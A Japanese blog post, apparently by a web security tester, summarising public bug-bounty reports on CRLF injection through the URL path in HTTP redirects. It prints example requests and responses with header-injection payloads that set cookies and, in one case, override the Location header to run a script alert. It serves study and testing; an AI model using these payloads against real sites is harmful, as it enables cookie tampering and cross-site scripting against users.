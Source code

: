 ```yaml
---
lang: ja
---
```


# Request-URIのパスからのCRLFインジェクション

<time datetime="2018-02-14">2018年2月14日</time>

---

ロシアのバグハンターであるSergey Bobrov氏（[@Black2Fan](https://twitter.com/Black2Fan)）が[HackerOneで公開しているレポート](https://hackerone.com/bobrov?sort_type=latest_disclosable_activity_at&filter=type%3Apublic&page=1&range=forever)を読んでいると、私が今まで認識しなかった方法でCRLFインジェクションを検出していた。後学のためにまとめておく。

## パラメータからのCRLFインジェクション

私が今まで行なっていた方法は、パラメータの値がレスポンスヘッダに出力される箇所で、値に改行コードを含めて確認するだけだった。値がSet-CookieヘッダやLocationヘッダに含まれるパラメータを対象に、[RFCでヘッダフィールドの終端として認められている](http://httpwg.org/specs/rfc7230.html#message.robustness) `CRLF`（%0D%0A）と `LF`（%0A）に加え、Firefoxを除く主要ブラウザ<sup id="f1">[¹](#fn1)</sup>で終端として扱われる `CR`（%0D）も含めて確認していた。具体的には以下のような動作である。

hxxp://example.jp/?l=en%0D%0ASet-Cookie:crlf=injection

```http
GET /?l=en%0D%0ASet-Cookie:crlf=injection HTTP/1.1
Host: example.jp
...
```

```http
HTTP/1.1 200 OK
Date: Sun, 11 Feb 2018 00:00:00 JST
Server: Apache
Set-Cookie: lang=en
Set-Cookie:crlf=injection
...
```

## パスからのCRLFインジェクション

Bobrov氏が行なっていたのは、30xリダイレクトが発生する箇所でRequest-URIのパスに改行コードを含め、Locationヘッダの出力を確認する方法だった。レポートのリダイレクト処理に注目すると以下のケースに分けられる。

- HTTPSへのリダイレクト
- 異なるホストへのリダイレクト
- トレイリングスラッシを削除するリダイレクト

各ケースでのCRLFインジェクションについてレポートを参考にまとめていく。

### HTTPSへのリダイレクト

HTTPSのページにHTTPで接続すると、HTTPSへのリダイレクトが発生する箇所でのケースである。その際のパスに改行コードを含めることで、Locationヘッダの出力で改行できる場合がある。以下は[Sucuriへのレポート](https://hackerone.com/reports/144769)を参考にした例である。

hxxp://support.example.net/%23%0DSet-Cookie:crlf=injection

```http
GET /%23%0DSet-Cookie:crlf=injection HTTP/1.1
Host: support.example.net
...
```

```http
HTTP/1.1 301 Moved Permanently
Date: Tue, 14 Jun 2016 19:56:14 GMT
Server: Apache
Location: https://support.example.net/#
Set-Cookie:crlf=injection
...
```

改行コードの手前に `#`（%23）を含めているのは、それ以降がフラグメントとして処理され、Locationヘッダに出力されたからだと考える。パスやクエリは出力しないようにしていた、または改行コードをエスケープして出力していたが、通常サーバに送信されないフラグメントは想定外だったのだろうか。

[Trelloへのレポート](https://hackerone.com/reports/45514)のようにHTTPSからHTTPへのリダイレクトという逆のケースもあった。

### 異なるホストへのリダイレクト

接続したホストから別のホスト、または特定のパスへリダイレクトする箇所でのケースである。以下は[ownCloudへのレポート](https://hackerone.com/reports/154306)を参考にした `api.example.org` から `doc.example.org/api/` へのリダイレクトでの例である。

hxxps://api.example.org/%23%0DSet-Cookie:crlf=injection

```http
GET /%23%0DSet-Cookie:crlf=injection HTTP/1.1
Host: api.example.org
...
```

```http
HTTP/1.1 301 Moved Permanently
Date: Wed, 27 Jul 2016 10:28:01 GMT
Server: Apache
Strict-Transport-Security: max-age=63072000
X-Xss-Protection: 1; mode=block
Location: https://doc.example.org/api/#
Set-Cookie:crlf=injection
...
```

過去に使われていたホストから現在のホストへの変更処理だろう。この他にも[Mail.Ruへのレポート](https://hackerone.com/reports/15492)のような `example.jp` から `example.jp/en/` への言語変更や、[Greenhouse.ioへのレポート](https://hackerone.com/reports/25275)のような `example.jp` から `www.example.jp` へのサブドメインの変更でも検出されている。

### トレイリングスラッシュを削除するリダイレクト

パスの末尾にある `/` を[トレイリングスラッシュ](https://webmasters.googleblog.com/2010/04/to-slash-or-not-to-slash.html)と呼ぶ。このトレイリングスラッシュがある場合は通常ディレクトリを指し、ない場合はコンテンツを指す。サイトによっては `/about/` のようなディレクトリの要求に対して、トレイリングスラッシュを削除して `/about` のようなコンテンツの要求へ変更する場合がある。以下は[Mail.Ruへのレポート](https://hackerone.com/reports/67386)を参考にしたトレイリングスラッシュを削除する際のリダイレクトでの例である。

hxxp://m.my.example.jp/crlftest%0DSet-Cookie:crlf=injection/

```http
GET /crlftest%0DSet-Cookie:crlf=injection/ HTTP/1.1
Host: m.my.example.jp
...
```

```http
HTTP/1.1 301 Moved Permanently
Server: nginx
Date: Sat, 11 Jun 2016 00:00:00 GMT
Content-Type: text/html
Location: http://m.my.example.jp/crlftest
Set-Cookie:crlf=injection
...
```

この例は `crlftest` という存在しないコンテンツを要求したケースだが、存在するコンテンツを要求した場合のみトレイリングスラッシュを削除する箇所もある。これとは逆にトレイリングスラッシュを追加する際にリダイレクトが発生する箇所もある。そのような箇所でもパスから改行コードを挿入できる可能性はある。

## CRLFインジェクションによるLocationヘッダの上書き

Bobrov氏のレポートのなかで[Starbucksへのレポート](https://hackerone.com/reports/192667)だけが、リダイレクトを止めてXSSにつなげていた。リダイレクトを止める方法はブラウザごとに異なるため、レポートではChromeとFirefoxのPoCを示している。以下はFirefoxの例である。

hxxp://stagecafrstore.example.com/%3F%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3A0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E

```http
GET /%3F%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3A0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E HTTP/1.1
Host: stagecafrstore.example.com
...
```

```http
HTTP/1.1 301 Content-moved
Date: Tue, 20 Dec 2016 08:40:11 GMT
Server: WebServer
X-Original-link: /%3F%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3A0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
X-XSS-Protection: 0
Location: //x:1
Content-Type: text/html
Content-Length: 98

<script>alert(document.domain)</script>
Content-Length: 0
X-OneLinkServiceType: onelink.fcgi
...
```

この例では `?`（%3F）と `CRLF`（%0D%0A）の後にLocationヘッダを挿入している点が興味深い。本来はHTTPSのページまたは異なるホストへのLocationヘッダが出力されていたが、CRLFインジェクションによってLocationヘッダを上書きできたのだろう<sup id="f2">[²](#fn2)</sup>。Locationヘッダを上書きしてリダイレクト先に `:1` のような[ブロック対象のポート](https://developer.mozilla.org/en-US/docs/Mozilla/Mozilla_Port_Blocking)を設定することで、リダイレクトを止めてレスポンスボディを表示させている<sup id="f3">[³](#fn3)</sup>。ChromeではLocationヘッダの値を空にすることでリダイレクトを止めていた。Request-URIのパスからのCRLFインジェクションでも、Locationヘッダを上書きできるケースはあるようだ。

## 所感

プログラム言語やフレームワークでの対策によって、CRLFインジェクションは作り込まれにくい脆弱性になったと考えていた。最近の診断でもほとんど見かけることはなかった。しかし、今回取り上げた事例は最近でも検出される場合があり、HackerOneでは他にもレポートが公開されている。Zeronights 2017の「[CRLF and OpenRedirect](https://speakerdeck.com/shikarisenpai/crlf-and-openredirect-for-dummies)」でも、この事例は取り上げられていた。これだけ検出されているのだから、今後バグバウンティの対象になるサイトでも検出されるだろう。スコープ内であれば認定される可能性が高い脆弱性なので狙い目だ。

---

<sup id="fn1">[¹](#f1)</sup> Chrome64、Safari11、Edge41、IE11は `CR` をヘッダフィールドの終端として扱っていた。  
<sup id="fn2">[²](#f2)</sup> 徳丸本のP.195「外部ドメインへのリダイレクト」にあるようなCGI特有の動作だと考える。  
<sup id="fn3">[³](#f3)</sup> はせがわさんが[ポートブロッキングを使う方法](http://d.hatena.ne.jp/hasegawayosuke/20161210/p1)をまとめている。
